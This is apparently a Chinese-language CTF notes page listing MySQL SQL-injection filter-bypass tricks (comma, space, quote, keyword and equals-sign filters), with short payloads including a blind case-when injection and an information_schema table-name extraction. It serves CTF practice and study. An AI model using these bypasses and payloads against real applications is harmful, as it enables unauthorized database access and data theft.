 * 如果`limit`处逗号被过滤

    使用`limit 1 offset 0`代替


* 如果`substr\left\mid`中的逗号被过滤

    使用`from xxx for xxx`代替
    
    原来:`substr({payload},1,1)`
    现在:`substr({payload} from 1 for 2)`

    ![](./CTF/fromfor.jpg)
    
* `or`或者`information`被过滤

    参见*概述Mysql信息*模块使用的两个数据库(mysql>5.7)，sys schema和innodb schema两个数据库

* `=`和`like`被过滤

    用正则匹配方法`regexp()`绕过


* `if`被过滤

    用`case when`代替

    payload:`id=1^case%0aascii(substr(database(),1,1))when(102)then 2 else 3 end`

* 反斜杠绕过单引号过滤

    >ctfshow 235
    
    前提是两个参数可控
    `$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";`

    可以传password为`1\`，这样pass的单引号就被转义导致将原先后面的语句包括，变为`pass='1\'where username ='`，然后就在username进行注入，需要重新加一个username=,因为原先的变成password的一部分了

    payload:`# username=,username=(select group_concat(table_name) from information_schema.columns where table_schema=database())-- - &password=\`

* 正则没加`/i`修饰符

    尝试大小混写绕过

* 过滤去除匹配项

    尝试双写绕过

* 空格过滤

    * `()`代替

        考虑用报错注入，可以不用空格，`select`的内容可以用括号`()`括住，eg:`select(database())`

    * `/**/`代替

    * `/*!...*/`内联注释代替

        在mysql中 `/*! ....*/` 不是注释，mysql为了保持兼容，它把一些特有的仅在mysql上用的语句放在`/*!....*/`中，这样这些语句如果在其他数据库中是不会被执行，但在mysql中它会执行

    * `%0a\%0b\%0c...`
